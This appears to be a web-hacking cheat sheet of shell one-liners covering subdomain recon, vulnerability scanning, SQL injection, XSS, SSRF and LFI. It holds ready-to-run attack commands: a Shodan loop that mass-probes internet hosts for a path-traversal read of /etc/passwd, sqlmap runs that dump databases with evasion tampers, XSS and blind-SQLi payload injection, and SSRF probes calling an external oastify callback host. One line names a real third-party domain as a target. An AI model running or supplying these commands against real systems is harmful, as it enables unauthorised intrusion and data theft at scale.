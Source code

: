 ### 1. **Reconnaissance / Information Gathering**
   - **Subdomain Enumeration:**
     ```bash
     subfinder -dL /home/kali/Tools/Target.txt -o subfinder.txt
     subfinder -dL /home/kali/Tools/Target.txt | httpx -status-code
     amass enum -passive -norecursive -noalts -df /home/kali/Tools/Target.txt -o amass.txt
     sublist3r -d https://target.com/ -o sublist3r.txt
     subfinder -dL /home/kali/Tools/target.txt -all -recursive > subtarget.txt
     subfinder -d viator.com -all -recursive > subdomain.txt
     findomain -t https://target.com -q | httpx -silent | anew | waybackurls | gf sqli >> sqli
     ```

   - **URL Discovery & HTTP Probing:**
     ```bash
     cat /home/kali/Tools/Target.txt | waybackurls | grep "?" | uro | httpx -silent > urls
     subfinder -dL /home/kali/Tools/target.txt -silent -all | httpx -silent -ports http:80,https:443,2082,2083 -path 'cpanelwebcall/<img%20src=x%20onerror="prompt(document.domain)">aaaaaaaaaa' -mc 400
     subfinder -d target.com -all | naabu | httpx | nuclei -t nuclei-templates
     echo https://Target.com | hakrawler > testphp.txt && cat testphp.txt | grep -o "http[^ ]*" > testphp_filter_urls.txt && cat testphp_filter_urls.txt | grep = > testphp_parameter_urls.txt
     echo $domain | (gauplus || hakrawler) | grep -Ev "\.(jpeg|jpg|png|ico|woff|svg|css|ico|woff|ttf)$" > ./gaukrawler.txt
     ```

   - **Shodan for Reconnaissance:**
     ```bash
     shodan search http.favicon.hash:-1252041730 "3992" --fields ip_str,port --separator " " | awk '{print $1":"$2}' | while read host; do curl --silent --path-as-is --insecure "https://$host/tmui/login.jsp/..;/tmui/locallb/workspace/fileRead.jsp?fileName=/etc/passwd" | grep -q root && \printf "$host \033[0;31mVulnerable\n" || printf "$host \033[0;32mNot Vulnerable\n"; done
     ```

   - **Directory Traversal & File Inclusion Discovery:**
     ```bash
     python3 dotdotslash.py -u https://target.com
     cat /home/kali/Tools/target.txt | (gau || hakrawler || waybackurls || katana) | gf lfi | httpx -paths lfi_wordlist.txt -threads 100 -random-agent -x GET,POST -tech-detect -status-code -follow-redirects -mc 200 -mr "root:[x*]:0:0:"
     ```

   - **Miscellaneous Discovery:**
     ```bash
     cat /home/kali/Tools/target.txt | grep -E "\.txt|\.log|\.cache\.secret|\.db.backup\.yml|\.json|\.gz|\.rar|\.zip|\.config"
     cat /home/kali/Tools/target.txt | grep -E "\.js$" >> js.txt
     ```

### 2. **Vulnerability Scanning**
   - **Nmap Scanning:**
     ```bash
     nmap -Pn -A -sV -sC (IPTarget) -p 17,80,20,21,22,23,24,25,53,69,80,123,443,1723,4343,8081,8082,8088,53,161,177,3306,8888,27017,27018,139,137,445,8080,8443 -oN scan-result.txt --script=vuln
     ```

   - **CORS Misconfiguration:**
     ```bash
     python3 corsy.py -i /home/kali/Tools/Target.txt
     cat /home/kali/Tools/Target.txt | CORS-Scanner
     corscanner -i /home/kali/Tools/Target.txt -v -t 100
     ```

   - **Specific Vulnerability Scanning with Nuclei:**
     ```bash
     nuclei -u https://Target.com -w nuclei-templates/cloud/aws/aws-code-env.yaml
     nuclei -list /home/kali/Tools/Target.txt -t /root/nuclei-templates/vulnerabilities -t /root/nuclei-templates/cves -t /root/nuclei-templates/exposures -t /root/nuclei-templates/sqli.yaml
     nuclei -list http_urls.txt -w workflows/wordpress-workflow.yaml
     nuclei -list /home/kali/Tools/Target.txt -w nuclei-templates/http/exposures/configs/symfony-profiler.yaml
     ```

### 3. **Exploitation**
   - **SQL Injection (SQLi):**
     ```bash
     sqlmap -u https://Target.com/ --dbs --forms --crawl=2
     sqlmap -g /home/kali/Tools/Target.txt --dbs --forms --crawl=2
     sqlmap -u "https://target.com" --dbs --level=5 --risk=3 --user-agent -v3 --tamper="between,randomcase,space2comment" --batch --dump
     subfinder -dL /home/kali/Tools/Target.txt | dnsx | waybackurls | uro | grep "?" | head -20 | httpx -silent > urls; sqlmap -m urls --batch --random-agent --level 1 | tee sqlmap.txt
     ```

   - **Cross-Site Scripting (XSS):**
     ```bash
     dalfox file /home/kali/Tools/Target.txt -b https://hahwul.xss.ht -o Vulnerable_XSS.txt
     cat /home/kali/Tools/Target.txt | Gxss -p khXSS -o XSS_Ref.txt
     waybackurls https://Target.com/ | gf xss | grep '=' | qsreplace '"><script>confirm(1)</script>' | while read host; do curl --silent --path-as-is --insecure "$host" | grep -qs "<script>confirm(1)" && echo "$host \033[0;31mVulnerable\n"; done
     ```

   - **Server-Side Request Forgery (SSRF):**
     ```bash
     python3 pwnssrf.py -H https://target.com
     cat /home/kali/Tools/target.txt | gf ssrf | sort -u | anew | httpx | qsreplace 2jmepn2tt7m7o95ckt40660omfs6gw4l.oastify.com | xargs -I % -P 25 sh -c 'curl -ks "%" 2>&1 | grep "compute.internal" && echo "SSRF VULN! %"'
     ```

   - **Blind SQL Injection:**
     ```bash
     cat /home/kali/Tools/Target.txt | grep "=" | qsreplace "1 AND (SELECT 5230 FROM (SELECT(SLEEP(10)))SUmc)"> blindsqli.txt
     ```

### 4. **Post-Exploitation**
   - **Exploit Scripts:**
     ```bash
     python3 jok3r.py attack -t target.com-s http --cat-only vulnscan --add2db hackingloops
     python2 pwnredir.py -u https://Target.com -f payloads.list
     python3 exploit.py -l /home/kali/Tools/target.txt -t 200 -o output.txt -ftd /etc/passwd
     ./gochopchop scan --url-file /home/kali/Tools/target.txt
     ./xray_linux_amd64 ws --basic-crawler https://target.com --plugins cmd-injection,sqldet --html-output target.com.html
     ```

### 5. **Miscellaneous**
   - **Custom Scripts & Tools:**
     ```bash
     python ws.py -t
     python vulmap.py -u https://target.com
     shodanx custom -cq '"Server: Check Point SVN" "X-UA-Compatible: IE=EmulateIE7" 200' -fct ip -o /home/kali/Tools/target.txt
     python3 pwnxss.py -u https://Target.com
     python2 pwnredir.py -u https://target.com -f payloads.list
     ```


